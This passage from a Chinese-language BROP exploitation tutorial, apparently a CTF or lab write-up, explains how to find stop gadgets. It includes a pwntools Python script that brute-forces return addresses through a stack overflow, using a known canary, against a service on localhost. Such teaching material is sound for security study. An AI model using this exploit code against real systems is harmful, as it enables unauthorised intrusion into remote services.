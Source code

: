 
### 寻找stop gadgets

stop gadgets是一个可以让程序陷入无限循环的地址，由此可以从0x400000地址开始尝试，每次地址增加一个字节。

将返回地址覆盖为当前尝试的stop gadgets，如果程序处于连接状态，则表明该地址是一个stop gadgets地址，如果远程连接被关闭了，则表明该地址不能让程序陷入无限循环，这不是stop gadgets，继续尝试下一个地址。



寻找stop gadgets的payload

```python
def find_stop_gadgets(buf_flag:int,canary_flag:bytes):

    stop_gadgets_flag = 0x0
    #从0x40000开始尝试
    stop_gadgets = 0x400000

    while stop_gadgets_flag == 0:

        try:
            #p = process()
            p = remote('127.0.0.1',9999)
            p.recvuntil(b"You Name?:")
			
            #填充到返回地址
            payload =  b"A" * buf_flag + canary_flag + p64(0)
            #返回地址覆盖为尝试的stop_gadgets地址
            payload += p64(stop_gadgets)
            p.send(payload)

			#此处尝试接受数据
            #如果连接被关闭，则recv会抛出一异常，那么这不是stop gadgets地址，继续尝试下一个地址
            #如果连接没有被关闭，等待了1秒钟后，recv会返回一个空字符
            Connection_flag = p.recv(timeout = 1)
            p.close()
			
            #如果返回的是一个空字符，则表明这是一个可以让程序陷入无限循环的地址
            if not Connection_flag:
                stop_gadgets_flag = stop_gadgets
            

        except:
            p.close()
            stop_gadgets += 1

    return stop_gadgets_flag
```



### 寻找csu_init函数

在寻找csu函数前，则先要定义地址的三种类型
